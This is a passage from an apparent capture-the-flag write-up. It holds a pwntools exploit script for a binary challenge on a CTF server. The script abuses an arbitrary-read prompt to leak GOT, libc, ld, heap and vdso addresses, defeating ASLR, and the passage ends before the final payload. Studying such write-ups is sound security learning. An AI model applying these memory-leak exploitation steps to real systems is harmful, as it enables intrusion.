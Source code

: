 ## Full Exploit
piecing up all of the information we know now, we could write out a full exploit that would give us the flag!

```py
#!/usr/bin/env python3

from pwn import *

exe = './chall_patched'
libc_path = './libc.so.6'
ld_path = './ld-2.35.so'

elf = context.binary = ELF(exe, checksec=True)
libc = ELF(libc_path, checksec=False)
ld = ELF(ld_path, checksec=False)

host = 'challs.pwnoh.io'
port = 13375
r = remote(host, port, level='DEBUG')
## r = process(exe, level='DEBUG')

gs = '''

'''

context.log_level = 'debug'

## r = gdb.debug(exe, gdbscript=gs)

puts_got = elf.got['puts']
r.recvuntil(b'Where to, captain?\n')

r.sendline(str(puts_got).encode())
puts_leak = int(r.recvline().strip().decode().split('gathered ')[1].split(' gold')[0], 10)
libc.address = puts_leak - libc.sym['puts']

elf_base = 0x400000
libc_base = libc.address

print(f"libc_base = {libc_base} => in hex: {hex(libc_base)}")

ld_pos = 0x404010
r.recvuntil(b'Where to, captain?\n')

r.sendline(str(ld_pos).encode())
ld_base = int(r.recvline().strip().decode().split('gathered ')[1].split(' gold')[0], 10)
ld_base = ld_base - (0x7f4ca5623d30 - 0x7f4ca560e000)

print(f"ld_base = {ld_base} => in hex: {hex(ld_base)}")

arena_top = libc_base + (0x7f30c7285ce0 - 0x7f30c706b000)
r.recvuntil(b'Where to, captain?\n')

r.sendline(str(arena_top).encode())
heap_base = int(r.recvline().strip().decode().split('gathered ')[1].split(' gold')[0], 10)
heap_base = heap_base - 0x3a0

vdso_pos = (0x7f4ca5649890 - 0x7f4ca560e000) + ld_base
r.recvuntil(b'Where to, captain?\n')

r.sendline(str(vdso_pos).encode())
vdso_leak = int(r.recvline().strip().decode().split('gathered ')[1].split(' gold')[0], 10)
```